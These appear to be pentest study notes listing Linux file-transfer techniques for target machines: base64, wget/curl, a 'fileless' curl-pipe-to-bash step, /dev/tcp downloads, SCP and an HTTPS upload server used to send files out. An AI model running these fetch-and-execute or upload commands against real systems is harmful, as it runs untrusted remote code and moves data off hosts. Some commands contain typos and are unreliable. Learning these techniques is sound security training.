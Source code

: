 # Download operations

### Base64 Encoding/Decoding

#### Check File MD5 hash
- `md5sum <file_name>`
- To encode file to base64 
	- `cat <file_name> | base64 -w 0; echo`
	
	1. ==cat== command is used to print file content
	2. ==base64== is used to encode the contents of `file_name`.
	3. ==-w 0== is used to create only one line output.
	4. ==echo== is used to start a new line and make it easier to copy.

- To decode:
	- `echo -n 'encoded_value' | base64 -d > <file_name>`

### Web Download with Wget and cURL

#### Download a File Using wget 

- `wget <URL> -O <linux_file_path>`
- `curl -o <linux_file_path> <URL>`

## Fileless Attack Using Linux:

1. ==***Pipe Operator***== can be used that allow user to executes the file without downloading.

- By Using cURL
	- `curl <URL> | bash` 
- By Using wget
	- `wget -q0- <URL> | python3`

***{Based on the file_extension the executor is defined}***

## Download with Bash (/dev/tcp)

- If all the well-known file transfer tools fails to transfer file.
- Bash version 2.04 or greater allow file transfer by using built /dev/TCP device that allow user for simple Downloads.

- ###### Connect to the Target Webserver

	- `exec 3>/dev/tcp/<target/port>`

- ###### HTTP GET Request 
	
	- `echo -e "GET /<file_name> HTTP/1.1\n\n">&3`

- ###### Print the Response
	
	- cat <&3

## SSH Downloads

- SSH (Secure Shell) a protocol that allows secure to remote computers.
- SSH implementation with an ***SCP*** utility for remote file transfer.
- ==SCP== (secure copy) is a command line utility that allow users to copy files and directories between two host securely.

##### Enabling the SSH server

- `system enable ssh`
##### Starting the SSH server

- `systemctl start ssh`

##### For checking SSH listening port

- `netstat -lnpt`

## Linux - Downloading Files Using SCP

- `scp plaintext@<IP:>/<file_path> .`

## Upload Operations

### Web Upload

- Use ==uploadsever==, an extended module of the python HTTP.Server module, which includes a file upload page.
	- ###### Installation:
	
		- `python3 -m pip install --user uploadserver` 
	
	- ###### Create a Self-Signed certificate:
	
		- `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
		
	- ###### Start Web Server:
	
		- `mkdir https && cd https`
		
		- `python3 -m uploadserver 433 --server-certificate session ~/server.pem`

	- ##### Linux - Upload multiple Files:
		
		- `curl -X POST https://<IP>/upload -F 'files=@<File_path>' -F 'files=@<File_path>' --insecure`
		
		- `--insecure` is used as a self-signed certificate that we trust.
## Alternative Web File Transfer Method:

- Since Linux distribution usually have python or php installed.
- So using these to transfer file is straightforward. 

- ##### Linux - Creating a webserver with Python3
	
	- `python3 -m http.server`

- ##### Linux - Creating a webserver with Python2.7

	- `python2.7 -m SimpleHTTPServer`

- #### Linux - Creating a Web Server with PHP

	- `php -S 0.0.0.0:<port>`

- #### Linux - Creating a Web Server with Ruby

	- `ruby -run -ehttpd . -p8000`

### Use wget to download from upload server.


## SCP Upload 

- Companies that allow the `SSH protocol` (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the `scp` utility to upload files. Let's attempt to upload a file to the target machine using the SSH protocol

	- `scp <file_path> username@IP:<destination_file_path>` 

[[File Transfer]]